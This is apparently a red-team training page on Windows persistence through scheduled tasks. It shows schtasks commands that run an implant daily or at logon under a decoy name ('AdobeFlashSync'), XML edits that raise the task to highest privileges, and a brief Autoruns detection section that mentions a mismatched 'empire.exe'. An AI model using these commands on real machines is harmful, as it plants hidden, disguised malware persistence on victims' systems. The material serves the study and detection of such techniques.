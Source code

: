 # Scheduled Tasks

#### Scheduled tasks have been abused by ransomware for a long time and is another commonly used and simple persistence technique. Adversaries can create scheduled tasks that run at a specific time and day and execute arbitrary payloads.

run the following command to generate a new task called MyTask that is scheduled to run daily at 9:00am that will execute the empire.exe binary located in the C:\ root folder.

#### <mark style="color:orange;">here is the official Microsoft documentation for</mark> <mark style="color:orange;"></mark><mark style="color:orange;">`schtask`</mark> <mark style="color:orange;"></mark><mark style="color:orange;">with various example commands:</mark>

{% embed url="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks-create#to-schedule-a-task-to-run-every-n-hours" %}

#### <mark style="color:green;">as a regular USER:</mark>

```tsconfig
schtasks /create /tn "Mytasks\go" /sc daily /st 09:00 /tr "c:\rto\pers\implant\implant.exe"
schtasks /create /tn "Some task name" /tr "app.exe" /sc HOURLY
schtasks /query /tn "mytasks\go" /fo:list /v
schtasks /run /tn "mytasks\go"
```

#### <mark style="color:green;">as a LOCAL ADMIN:</mark>

```tsconfig
schtasks /create /sc onlogon /tn AdobeFlashSync /tr "c:\rto\pers\implant\implant.exe"
schtasks /query /tn "AdobeFlashSync" /fo list

# take the configurations from an xml file

# export the task config 
schtasks /query /tn AdobeFlashSync /xml > c:\RTO\PERS\tsk.xml

#under <principal> section add this tag:
<RunLevel>HighestAvailable</RunLevel>
 
# then remove the task and make a new one with the modified configuration
schtasks /delete /f /tn AdobeFlashSync
schtasks /create /tn AdobeFlashSync /xml c:\RTO\PERS\tsk.xml

# now the privilege level is local admin
```

## <mark style="color:red;">Multi-action Tasks</mark>

By modifying the task configuration file, we can add additional actions to the scheduled task under `<Actions>` section.

for example we can execute a binary file by adding :

```xml
<Exec>
    <Command>c:\users\rto\desktop\implant.exe</Command>
</Exec>
```

## <mark style="color:red;">Detection</mark>

Microsoft has a Windows internals utility called Autoruns that shows you what programs are configured to run during system bootup or login. On the victim machine run the Autoruns64.exe as administrator.

Going to the Logon tab we can see the Run registry key that was added pointing to the empire.exe binary as well as the empire.exe binary that was dropped to the Startup folder.

![](<../../../.gitbook/assets/image (157).png>)

Under the Scheduled Task tab I can see the MyTask that points to the empire.exe saved in the root C:\\

![](<../../../.gitbook/assets/image (144).png>)
